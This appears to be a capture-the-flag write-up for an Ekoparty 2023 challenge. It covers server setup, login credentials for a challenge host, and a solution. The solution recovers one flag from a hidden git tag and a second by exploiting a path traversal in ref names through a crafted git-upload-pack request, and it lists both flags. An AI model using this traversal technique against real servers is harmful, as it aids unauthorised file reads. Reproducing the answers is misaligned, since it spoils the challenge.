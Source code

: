 * Username: git
* Password: ekoparty-2023-ctf

```bash
cd home
docker build . -t ekoparty-2023-ctf
docker run --rm -it ekoparty-2023-ctf
```

# Installation on the server:

```bash
sudo adduser git
sudo adduser git docker

gcc -Wall myshell.c -o myshell

sudo emacs -nw /etc/passwd # replace /bin/bash with /home/git/myshell
```

# Challenge: git the commits

Find two flags on this server:

* IP: 40.119.46.123
* username: git
* password: ekoparty-2023-ctf

# Solution

## step 0

```
ssh git@40.119.46.123
```

Notice that this is a git-shell environment. Run the `list` command to
see the available repos. There is one called `git.git`.

## step 1

Clone the git repo:

```
git clone git@40.119.46.123:~/git.git
```

Observe that it is a copy of https://github.com/git/git.git The repo
contains an extra release tag, which you can find by comparing the
list of tags against the official version.  Alternatively, if you
first clone https://github.com/git/git.git and then add
git@40.119.46.123:~/git.git as a second remote, you'll see the extra
tag. I.e. run these commands:

```
git clone https://github.com/git/git.git
cd git/
git remote add ekoparty git@40.119.46.123:~/git.git
git fetch ekoparty --tags
```

Checkout the tag:

```
git checkout v2.34.9
```

The first flag is now checked out:

```bash
$ cat flag1.txt
EKO{af076e77-efb4-42da-a6b4-5d8cfcc3676b}
```

There is also a `Dockerfile` in the directory which shows how the
server is configured, which will help you to figure out the next step.

## step 2

From the Dockerfile found in step 1, you can figure out that there's
another git repo on the server:

```
git clone git@40.119.46.123:~/git-local
```

The Dockerfile also shows that an extra tag (`secondflag`) was added
but then removed from the git-local repo. The hash of the commit has
been stored in the file `~/flagref`. Also, the `allowanysha1inwant`
configuration has been enabled, which will let us get the content of
the commit even though the tag is gone, provided we know the commit
hash.

The source code has been modified to enable a path traversal on ref
names. Also a new upload command called "want-ref", which is normally
only available in the v2 protocol, has been added to the v0
protocol. We can use this to read `~/flagref` like this:

```
echo "001fwant-ref refs/../../flagref0000" | ssh git@40.119.46.123 "git-upload-pack '~/git.git'"
```

Which prints this error message:

```
00000049ERR upload-pack: not our ref 576d2a3b4a9ef71499faeab83ef0ad141ce44496
```

Now we can get that commit like this:

```
cd git-local
git fetch origin 576d2a3b4a9ef71499faeab83ef0ad141ce44496
git checkout 576d2a3b4a9ef71499faeab83ef0ad141ce44496
```

The second flag has been checked out:

```
$ cat flag2.txt
EKO{65e39232-2f4b-46e9-95d5-2a4fd903251b}
```
